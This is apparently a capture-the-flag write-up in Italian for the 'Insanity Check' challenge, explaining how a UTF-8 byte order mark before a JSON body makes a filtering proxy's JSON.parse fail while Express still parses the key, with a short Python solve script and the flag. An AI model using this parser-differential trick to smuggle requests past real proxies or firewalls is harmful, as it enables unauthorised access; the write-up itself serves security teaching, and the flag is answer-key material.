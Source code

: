 # Insanity Check

## Descrizione
Esplorare il web può essere rischioso.
CodeVinci ha deciso di rendere il viaggio più sicuro.


*Author: [@benjamin](https://github.com/b3nj4m1no)*


## Soluzione
Lo scopo era creare un payload in json che rispecchiasse due condizioni:

* Il `backend`, ovvero un parser JSON di Express, lo doveva riconoscere come un JSON contenente una chiave `dammilaflag`.
* Il `proxy` non doveva riuscire ad analizzarlo come un valore JSON a `JSON.parse(req.body)`.
  
In conclusione, il seguente JSON li soddisfa, dove `\ufeff` è un [BOM (Byte Order Mark)](https://en.wikipedia.org/wiki/Byte_order_mark):
```js
\ufeff{"dammilaflag": true}
```

I framework web spesso consentono l'aggiunta di un BOM all'inizio dei valori JSON. 

Ad esempio, Fastify ed Express controllano un BOM a:

* Fastify: https://github.com/fastify/secure-json-parse/blob/v2.7.0/index.js#L20-L23
* Express: https://github.com/ashtuchkin/iconv-lite/blob/v0.6.3/lib/bom-handling.js#L39-L40

D'altra parte, `JSON.parse` non consente un BOM:
```js
> JSON.parse('{"dammilaflag": true}')
{ dammilaflag: true }
> JSON.parse('\ufeff{"dammilaflag": true}')
Uncaught SyntaxError: Unexpected token '', "{"dammil"... is not valid JSON
```

## Solve

```py
# Author: @benjamin

import requests

url = "http://localhost:4567"

payload = '\ufeff{"dammilaflag": true}'.encode('utf-8')  # UTF-8 BOM

r = requests.post(
    url,
    headers = {"Content-Type": "text/plain"},
    data = payload
)

print(r.text)
```

## Flag
`CodeVinciCTF{n3vEr_tRu5t_4_w4f_:drop_of_blood:}`
